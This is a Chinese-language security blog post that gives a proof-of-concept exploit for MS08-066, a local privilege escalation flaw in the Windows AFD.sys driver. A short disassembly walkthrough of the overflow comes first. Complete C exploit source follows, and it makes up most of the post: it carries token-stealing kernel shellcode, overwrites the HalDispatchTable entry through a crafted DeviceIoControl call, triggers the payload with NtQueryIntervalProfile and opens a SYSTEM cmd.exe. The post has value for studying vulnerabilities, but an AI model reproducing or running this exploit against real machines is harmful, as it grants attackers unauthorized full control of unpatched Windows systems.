 ```yaml
---
title: MS08-066 AFD.sys Local Privilege Escalation Exploit (PoC)
description: MS08-066AFD.sysLocalPrivilegeEscalationExploit(PoC)文章作者：Eros412信息来源：邪恶八进制信息安全团队
date: 2008-10-17 08:59:55
category: 漏洞信息
tags: ['漏洞信息', 'exploit', 'PoC']
post_id: 644
alias: MS08-066-AFD.sys-Local-Privilege-Escalation-Exploit-PoC
ViewNums: 2894
---
```


**[MS08-066 AFD.sys Local Privilege Escalation Exploit (PoC)](/blog/ms08-066-afdsys-local-privilege-escalation-exploit-poc)**

文章作者：Eros412
信息来源：邪恶八进制信息安全团队（[www.eviloctal.com](http://www.eviloctal.com)）

MS Bulletin : <http://www.microsoft.com/technet/security/Bulletin/MS08-066.mspx>

**********计算IoControlCode过程**********

.text:00010B9F mov eax, [edx+0Ch] ; edx=CurrentStackLocation
.text:00010BA2 push esi
.text:00010BA3 mov esi, ecx
.text:00010BA5 mov ecx, eax ;ecx=IoControlCode
.text:00010BA7 shr ecx, 2
.text:00010BAA and ecx, 3FFh
.text:00010BB0 push edi
.text:00010BB1 mov edi, _AfdImmediateCallDispatch[ecx*4] ; ecx=0x0F

.data:00011FF8 _AfdImmediateCallDispatch dd 0 ; DATA XREF: AfdDispatchImmediateIrp(x,x)+122r
.data:00011FF8 ; AfdFastIoDeviceControl(x,x,x,x,x,x,x,x,x)+7A2r

.data:00012034 off_12034 dd offset AfdGetRemoteAddress(x,x,x,x,x,x,x,x)
.data:00012034 ; DATA XREF: .data:0001213C2o

//0x12034-0x11FF8= 0x3C,所以ecx=(0x3C/4)=0x0F

PAGEAFD:0001AE64 cmp _AfdIoctlTable[esi], edi ;
PAGEAFD:0001AE6A jnz loc_20510
PAGEAFD:0001AE6A
PAGEAFD:0001AE70 mov [edx+1], al
PAGEAFD:0001AE73 mov esi, _AfdIrpCallDispatch[esi]

//我们从_AfdIoctlTable寻找一个运算后==0x0F的值

kd>dd _AfdIoctlTable
f81c3108 00012003 00012007 0001200b 0001200c
f81c3118 00012010 00012017 0001201b 0001201f
f81c3128 00012023 00012024 0001202b 0001202f
f81c3138 00012033 00012037 0001203b 0001203f
f81c3148 00012043 00012047 0001204b 0001204f

//答案是0001203f

***********************************************

*****************溢出过程**********************

PAGE:000171B5 cmp [ebp+OutputBufferLength], eax
PAGE:000171B8 jnb short loc_171C3
PAGE:000171B8
PAGE:000171BA mov [ebp+var_24], 80000005h
PAGE:000171C1 jmp short loc_171C9---------------------------------------------〉big problem!!!
PAGE:000171C1
PAGE:000171C3 ; ---------------------------------------------------------------------------
PAGE:000171C3
PAGE:000171C3 loc_171C3: ; CODE XREF: AfdGetRemoteAddress(x,x,x,x,x,x,x,x)+502j
PAGE:000171C3 mov [ebp+OutputBufferLength], eax
PAGE:000171C6 mov [ebp+var_24], esi
PAGE:000171C6
PAGE:000171C9
PAGE:000171C9 loc_171C9: ; CODE XREF: AfdGetRemoteAddress(x,x,x,x,x,x,x,x)+592j
PAGE:000171C9 mov [ebp+ms_exc.disabled], esi

PAGE:000171E0 movzx ecx, word ptr [ebx+5Ah] ;
PAGE:000171E4 movzx esi, word ptr [ebx+58h] ;
PAGE:000171E8 add esi, [ebp+ebx_70h] ;
PAGE:000171EB mov edi, [ebp+OutputBuffer]-----------------------〉控制的OutputBuffer地址
PAGE:000171EE mov eax, ecx
PAGE:000171F0 shr ecx, 2
PAGE:000171F3 rep movsd--------------------------〉其实就是把sockaddr_in的内容拷贝，其中OutputBuffer地址里的内容被修改成
sockaddr_in.in_addr.s_addr，而这里的sockaddr_in就是accept()的socket里的
[HalDispatchTable]==sin_port
[HalDispatchTable=0x02]==AF_INET
[HalDispatchTable+0x04]==sockaddr_in.in_addr.s_addr

kd>dd HalDispatchTable
80538ab8 88880002 0100007f cccccccc cccccccc

PAGE:000171F5 mov ecx, eax ;
PAGE:000171F7 and ecx, 3 ;
PAGE:000171FA rep movsb

***********************************************

代码:
#include <Winsock2.h>
#include <stdio.h>
#include <windows.h>
char ShellCode[]="x90x90x90x90x90x90xB8x24xF1xDF"
"xFFx8Bx00x8BxB0x20x02x00x00x8B"
"xC6x8Bx80x88x00x00x00x2Dx88x00"
"x00x00x8Bx90x84x00x00x00x83xFA"
"x04x75xEAx8Bx80xC8x00x00x00x89"
"x86xC8x00x00x00xC2x08x00";

typedef struct _THREAD_PARAMS
{
HANDLE hInitEvent;
HANDLE hReadyEvent;
} THREAD_PARAMS, *PTHREAD_PARAMS;

typedef DWORD (WINAPI *PNTALLOCATE)(        IN HANDLE ProcessHandle,
IN OUT PVOID            *BaseAddress,
IN ULONG                ZeroBits,
IN OUT PULONG           RegionSize,
IN ULONG                AllocationType,
IN ULONG                Protect );

typedef DWORD (WINAPI *PNTQUERYINTERVAL)(  ULONG ProfileSource,PULONG          Interval );

#pragma comment (lib, "ws2_32.lib")

VOID WINAPI FooServer(LPVOID pParam)
{
PTHREAD_PARAMS lParams = (PTHREAD_PARAMS)pParam;
SOCKET tcp_socket;
SOCKET local_client;
sockaddr_in localonly;
sockaddr_in remote;
int remoteLen = sizeof(remote);
localonly.sin_family=AF_INET;
localonly.sin_addr.s_addr = inet_addr("127.0.0.1");
localonly.sin_port=htons(0x8888);
tcp_socket= socket( AF_INET,SOCK_STREAM, 0 );
bind(tcp_socket,(sockaddr*)&localonly,sizeof(localonly));
SetEvent(lParams->hInitEvent);
listen(tcp_socket,2);
local_client = accept(tcp_socket,(struct sockaddr*)&remote,&remoteLen);
printf("
-> Incoming connection: %s
",inet_ntoa(remote.sin_addr));
WaitForSingleObject( lParams->hReadyEvent, -1 );
closesocket(local_client);
closesocket(tcp_socket);
return;
}

int main () {

printf("=====================================================================
");
printf(" [MS08-066  AFD.sys Local Privilege Escalation Exploit  (POC)](/blog/ms08-066-afdsys-local-privilege-escalation-exploit-poc)
");
printf("     Coded and Modified by :Eros412
");
printf("    Special Thanks to : Ruben Santamarta
");
printf("=====================================================================
");

ULONG result;
int status;
PROCESS_INFORMATION                        pi;
STARTUPINFOA                                stStartup;
DWORD HookAddress = 0x80538ab8; //HalDispatchTable address,修改KeQueryIntervalProfile的call function 的地址
//8062cdc2 ff15bc8a5380    call    dword ptr [nt!HalDispatchTable+0x4 (80538abc)]
PVOID        ShellCodeMemory = (PVOID)0x01000000 ;
DWORD        MemorySize = 0x1000;
PNTALLOCATE        NtAllocateVirtualMemory;
PNTQUERYINTERVAL        NtQueryIntervalProfile;
THREAD_PARAMS lParams = {0};
char inBuff[0x40];
char outBuff[0x40];
DWORD junk ;
SOCKET tcp_socket;
struct sockaddr_in peer;
WSADATA ws;
WSAStartup(0x0202,&ws);
NtAllocateVirtualMemory = (PNTALLOCATE) GetProcAddress(GetModuleHandle(        "ntdll.dll"),
"NtAllocateVirtualMemory");

NtQueryIntervalProfile = ( PNTQUERYINTERVAL ) GetProcAddress(GetModuleHandle("ntdll.dll"),
"NtQueryIntervalProfile");

status = NtAllocateVirtualMemory( (HANDLE)-1,
&ShellCodeMemory,
0,
&MemorySize,
MEM_RESERVE|MEM_COMMIT|MEM_TOP_DOWN,
PAGE_EXECUTE_READWRITE );

memset( ShellCodeMemory, 0x90, MemorySize );
memcpy((void*)((BYTE*)ShellCodeMemory + 0x100),ShellCode,80);
//"127.0.0.1" 在内存里==0x0100007F,所以shellcode放在后面（0x01000100）就没问题了
lParams.hInitEvent = CreateEvent(0, FALSE, FALSE, 0);
lParams.hReadyEvent = CreateEvent(0, FALSE, FALSE, 0);
memset(inBuff,0x90,sizeof(inBuff));
memset(outBuff,0x90,sizeof(outBuff));
CreateThread(         NULL,
0,
(LPTHREAD_START_ROUTINE)FooServer,
(LPVOID)&lParams,
0,
NULL);

peer.sin_family = AF_INET;
peer.sin_port = htons( 0x8888 );
peer.sin_addr.s_addr = inet_addr( "127.0.0.1" );
tcp_socket = socket(AF_INET, SOCK_STREAM, 0);
WaitForSingleObject(lParams.hInitEvent, -1);
connect(tcp_socket, (struct sockaddr*) &peer, sizeof(sockaddr_in));
DeviceIoControl((HANDLE)tcp_socket,
0x1203f,
(LPVOID)inBuff,sizeof(inBuff),
(LPVOID)HookAddress,0,
&junk,
NULL);
NtQueryIntervalProfile(3,&result);
SetEvent(lParams.hReadyEvent);
GetStartupInfo( &stStartup );
CreateProcess( NULL,
"cmd.exe",
NULL,
NULL,
TRUE,
NULL,
NULL,
NULL,
&stStartup,
&pi );

return 0;
}

Reference:

<http://www.milw0rm.com/exploits/6757> - MS [Windows XP](/blog/deepin-litexp-windows-xp-sp3-v62)/2003 AFD.sys Privilege Escalation [Exploit](/tags/exploit) (K-plugin) by Ruben Santamarta
<http://www.whitecell.org/list.php?id=60> - [Windows XP](/blog/deepin-ghost-xp-sp3-v90-iso) 核心驱动 AFD.sys 本地权限提升漏洞分析(ms08066) by Polymorphours
<http://blogs.technet.com/swi/archive/2008/10/14/ms08-066-how-to-correctly-validate-and-capture-user-mode-data.aspx>

